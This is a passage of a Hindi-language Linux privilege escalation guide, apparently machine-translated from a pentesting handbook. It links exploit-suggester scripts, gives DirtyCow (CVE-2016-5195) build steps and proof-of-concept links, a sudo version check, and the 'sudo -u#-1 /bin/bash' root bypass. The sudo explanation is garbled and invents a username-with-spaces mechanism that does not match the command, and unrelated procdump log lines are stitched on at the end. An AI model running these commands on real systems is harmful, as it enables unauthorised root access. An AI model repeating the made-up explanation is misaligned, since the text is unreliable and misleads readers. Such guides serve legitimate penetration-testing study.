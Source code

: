 [linux-exploit-suggester.sh](https://github.com/mzet-/linux-exploit-suggester)\
[linux-exploit-suggester2.pl](https://github.com/jondonas/linux-exploit-suggester-2)\
[linuxprivchecker.py](http://www.securitysift.com/download/linuxprivchecker.py) (केवल पीड़ित में निष्पादित करें, कर्नल 2.x के लिए एक्सप्लॉइट्स की जांच करता है)

हमेशा **Google में कर्नल संस्करण की खोज करें**, शायद आपके कर्नल संस्करण कोई कर्नल एक्सप्लॉइट में लिखा हो और फिर आप यह सुनिश्चित होंगे कि यह एक्सप्लॉइट मान्य है.

### CVE-2016-5195 (DirtyCow)

लिनक्स प्रिविलेज एस्कलेशन - लिनक्स कर्नल <= 3.19.0-73.8
```bash
# make dirtycow stable
echo 0 > /proc/sys/vm/dirty_writeback_centisecs
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
https://github.com/evait-security/ClickNRoot/blob/master/1/exploit.c
```
### Sudo संस्करण

जो विकल्पशील sudo संस्करणों पर आधारित हैं वे निम्नलिखित हैं:
```bash
searchsploit sudo
```
आप इस grep का उपयोग करके जांच सकते हैं कि क्या sudo संस्करण संकटग्रस्त है।
```bash
sudo -V | grep "Sudo ver" | grep "1\.[01234567]\.[0-9]\+\|1\.8\.1[0-9]\*\|1\.8\.2[01234567]"
```
#### sudo < v1.28

@sickrov से

यह एक गंभीर सुरक्षा संदेह है जो उन उपयोगकर्ताओं को प्रभावित कर सकता है जो sudo का उपयोग करते हैं। यदि आपके सिस्टम पर sudo की संस्करण 1.28 से पहले है, तो आपको इसे अद्यतित करना चाहिए।

इस संस्करण के पहले, sudo ने एक अद्यतन किया था जिसमें उपयोगकर्ता अपने खुद के नाम के साथ अपने नाम के बाद एक अंतरिक्ष जोड़ सकते थे। इसका मतलब है कि उपयोगकर्ता अपने खुद के नाम के बाद अन्य उपयोगकर्ताओं के नामों को भी जोड़ सकते हैं और उन्हें अपने नाम के साथ अलग कर सकते हैं।

इस अद्यतन के पहले, एक अद्यतन के बाद, उपयोगकर्ता अपने नाम के बाद अन्य उपयोगकर्ताओं के नामों को जोड़ने के लिए अंतरिक्ष का उपयोग नहीं कर सकते थे। इसलिए, यदि एक उपयोगकर्ता का नाम "admin" है और एक अन्य उपयोगकर्ता का नाम "hacker" है, तो उपयोगकर्ता "admin hacker" के रूप में लॉग इन कर सकता था।

इस संदर्भ में, एक हमलावर एक विशेष तरीके से उपयोगकर्ता के नाम को अपडेट करके उपयोगकर्ता के नाम के बाद अन्य उपयोगकर्ताओं को जोड़ सकता है, जिससे उपयोगकर्ता को अधिकार प्राप्त करने की अनुमति मिलती है।

इस संदर्भ में, हम एक उपयोगकर्ता के नाम को अपडेट करने के लिए एक विशेष तरीका देखेंगे जिससे हम उपयोगकर्ता के नाम के बाद अन्य उपयोगकर्ताओं को जोड़ सकते हैं।
```
sudo -u#-1 /bin/bash
```
### Dmesg हस्ताक्षर सत्यापन विफल हुआ

इस खोज के एक **उदाहरण** के लिए **HTB के smasher2 बॉक्स** की जांच करें।
```bash
dmesg 2>/dev/null | grep "signature"
```
### अधिक सिस्टम जांच


[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714